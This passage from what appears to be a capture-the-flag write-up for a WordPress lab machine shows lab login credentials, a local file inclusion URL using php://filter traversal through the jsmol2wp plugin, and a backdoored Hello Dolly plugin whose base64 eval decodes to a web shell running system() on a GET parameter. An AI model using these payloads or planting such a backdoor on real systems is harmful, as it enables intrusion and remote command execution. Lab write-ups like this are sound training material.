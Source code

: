 ![image 1](https://github.com/user-attachments/assets/4fea4328-61e2-4e61-a00a-cd0c929e71de)


Username found: wpuser

Password found: kbLSF2Vop#lw3rjDZ629*Z%G

Now, we can log in to /wp-login.php and enumerate it further for initial access.

---

After logging in to wordpress, we can see in pages page, there was a private page named “Webmaster tasks!!” which was looks like some assingned to someone, but here we got something for us.

![image 2](https://github.com/user-attachments/assets/f4b71c69-0f46-4f38-b6df-dc4025644813)

![image 3](https://github.com/user-attachments/assets/826704dc-d0d7-424f-bc6b-9794981ea692)


Look at task 1: [IMPORTANT] Check Backdoors: Verify the SOURCE CODE of "Hello Dolly" plugin as the site's code revision.

That means, there was one more plugin name “hello dolly” which was installed, let’s google it:

The Hello Dolly WordPress plugin is a simple plugin designed **to display random lyrics from the song "Hello, Dolly!"** **in the WordPress admin interface**. It’s source code was stored in a file named hello.php , so we can look at that file via same local file inclusion vulnerability we found.

```bash
http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../hello.php
```

```bash
<?php
/**
 * @package Hello_Dolly
 * @version 1.7.2
 */
/*
Plugin Name: Hello Dolly
Plugin URI: http://wordpress.org/plugins/hello-dolly/
......

// This just echoes the chosen line, we'll position it later.
function hello_dolly() {
	eval(base64_decode('CiBpZiAoaXNzZXQoJF9HRVRbIlwxNDNcMTU1XHg2NCJdKSkgeyBzeXN0ZW0oJF9HRVRbIlwxNDNceDZkXDE0NCJdKTsgfSA='));
```

I tried to decode that base64 encoded string:

```bash
┌──(kali㉿kali)-[~/tryhackme/smol]
└─$ echo "CiBpZiAoaXNzZXQoJF9HRVRbIlwxNDNcMTU1XHg2NCJdKSkgeyBzeXN0ZW0oJF9HRVRbIlwxNDNceDZkXDE0NCJdKTsgfSA=" | base64 -d

 if (isset($_GET["\143\155\x64"])) { system($_GET["\143\x6d\144"]); }
```

